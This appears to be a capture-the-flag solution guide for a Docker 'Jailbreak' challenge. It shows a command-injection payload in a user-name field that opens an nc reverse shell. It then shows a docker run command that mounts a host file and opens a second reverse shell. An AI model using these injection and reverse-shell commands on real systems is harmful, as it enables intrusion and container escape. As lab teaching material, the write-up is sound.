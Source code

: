 # Jailbreak

_Solution Guide_

## Overview

As instructed in the challenge guide, download the server source code and view the schema. Inspecting these two items reveals that the server creates and launches containers using Docker. The overarching objective in this challenge is to access resources on a Docker host from within a container by taking advantage of a vulnerable configuration.

## Question 1

_/app/flag1.txt (in container)_

In this section, we will first break out of the web app and get a shell to its hosting container. This will enable us to directly run a `docker` command in order to access host resources.

- (Info) Analyzing the source code will reveal a command injection vulnerability in `src/controllers/container.py` in the `create_user_container` method of the controller, which calls the `run_container` function in `src/dockercli.py` with a user's first and last name as a container name.
- Start a listen server with `nc -lvp 4444` in a terminal tab.
- Note local IP with `ip a` (we will use `10.5.5.50` for this example)
- Do a command injection by making a user with a name containing `; nc 10.5.5.50 4444;`, for example:
    - `curl --request POST --data '{"first_name": "Test", "last_name": "; nc 10.5.5.50 4444 -e /bin/sh;"}' http://10.5.5.10/users`
- Then follow it with `curl --request POST http://10.5.5.10/containers/<created_user_id>`
- (Info) This should make the web app container connect to the listen server with a reverse shell.
- Flag 1 is in `/app/flag1.txt`. Retrieve it with `cat /app/flag1.txt` in the reverse shell.
- Keep the reverse shell open for the next part.

## Question 2

_/root/flag2.txt (out of container)_

Now we're going to exploit the fact that the container is able to access the host's Docker daemon in order to mount data from the host into a new container using a custom `docker` command. While concocting the command for the new container, we also want to get a shell to it and so we will tell it to connect to a another local `nc` server when we create it.

- Start a listen server with 'nc -lvp 4445' in another terminal tab.
- (Info) The challenge says that the second flag is at `/root/flag2.txt` outside of the container. This means we need a way to access resources on the docker host by escaping containment.
- (Info) The source code plainly shows that the container has the docker command line tool, and we will use it.
- (Info) List the networks available to containers with `docker network ls`. The source code shows the name of the image used, but they can be listed with `docker images`.
- (Info) Mounting a volume to a running container is possible but unsupported. It would be much easier to start a new container with the file we need already mounted:
    - `docker run --name test --net c14-net -d -v /root/flag2.txt:/flag2.txt jailbreak-pc22 nc 10.5.5.50 4445 -e /bin/sh`
- Flag 2 is at /flag2.txt in the new reverse shell. Retrieve it with `cat /flag2.txt`.

